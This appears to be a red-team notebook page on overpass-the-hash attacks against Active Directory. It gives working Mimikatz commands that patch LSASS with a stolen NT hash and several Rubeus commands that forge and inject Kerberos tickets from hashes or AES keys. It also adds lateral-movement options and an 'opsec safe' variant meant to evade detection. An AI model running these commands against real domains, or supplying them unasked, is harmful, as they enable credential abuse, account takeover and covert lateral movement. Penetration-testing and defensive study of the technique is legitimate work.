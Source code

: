 # Overpass-the-Hash




## Mimikatz

* [https://github.com/GhostPack/Rubeus#example-over-pass-the-hash](https://github.com/GhostPack/Rubeus#example-over-pass-the-hash)
* [https://s3cur3th1ssh1t.github.io/Named-Pipe-PTH/](https://s3cur3th1ssh1t.github.io/Named-Pipe-PTH/)

Create a new process with dummy creds ([Logon type 9](https://ss64.com/nt/syntax-logon-types.html)), open the LSASS process and patch it with the supplied NT hash. This causes the normal Kerberos authentication process to kick off as normal as if the user had normally logged on, turning the supplied hash into a fully-fledged TGT:

```
Cmd > .\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::pth /user:snovvcrash /domain:megacorp.local /run:c:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe /ntlm:fc525c9683e8fe067095ba2ddc971889" "exit"
```

{% hint style="warning" %}
It also work for local accounts but for the reason that patching LSASS does not change the security information or user information for this process, the new credentials in LSASS can correctly be used only for network authentication and not for identifying the local user account associated with the process. (paraphrased from [here](https://s3cur3th1ssh1t.github.io/Named-Pipe-PTH/))

That's why for local accounts such options as `net use \\localhost\c$`, WMI calls or PsExec can be considered.
{% endhint %}




## Rubeus

* [https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)
* [https://github.com/GhostPack/Rubeus#example-over-pass-the-hash](https://github.com/GhostPack/Rubeus#example-over-pass-the-hash)

Create a sacrificial process ([Logon type 9](https://ss64.com/nt/syntax-logon-types.html)), legitimately ask Kerberos for TGT, import it and interact with the process (need elevated context):

```
Cmd > .\Rubeus.exe asktgt /domain:megacorp.local /dc:dc1 /user:snovvcrash /password:Passw0rd! /createnetonly:C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe /show
Cmd > .\Rubeus.exe asktgt /domain:megacorp.local /dc:dc1 /user:snovvcrash /rc4:fc525c9683e8fe067095ba2ddc971889 /createnetonly:C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe /show
```

{% hint style="info" %}
If operating Rubeus from a C2 agent, you can [steal_token](/redteam/cobalt-strike.md#overpass-the-hash) instead of using `/show` option.
{% endhint %}

Create a new process with dummy creds ([Logon type 9](https://ss64.com/nt/syntax-logon-types.html)) manually, then use Rubeus with user's NT hash to ask for a TGT and import it:

```
Cmd > runas /netonly /user:megacorp.local\snovvcrash cmd
Enter the password for megacorp.local\snovvcrash: dummy_Passw0rd!
Cmd > .\Rubeus.exe asktgt /domain:megacorp.local /dc:dc1 /user:snovvcrash /rc4:fc525c9683e8fe067095ba2ddc971889 /ptt
```

A more opsec safe approach is to use AES key (KeyType 0x12) instead of RC4-HMAC (KeyType 0x17) alongside with `/opsec` switch which instructs Rubeus not to do pre-auth (mimics standard Kerberos behavior):

```
Cmd > .\Rubeus.exe asktgt /domain:megacorp.local /dc:dc1 /user:snovvcrash /aes256:94b4d075fd15ba856b4b7f6a13f76133f5f5ffc280685518cad6f732302ce9ac /ptt /opsec
```
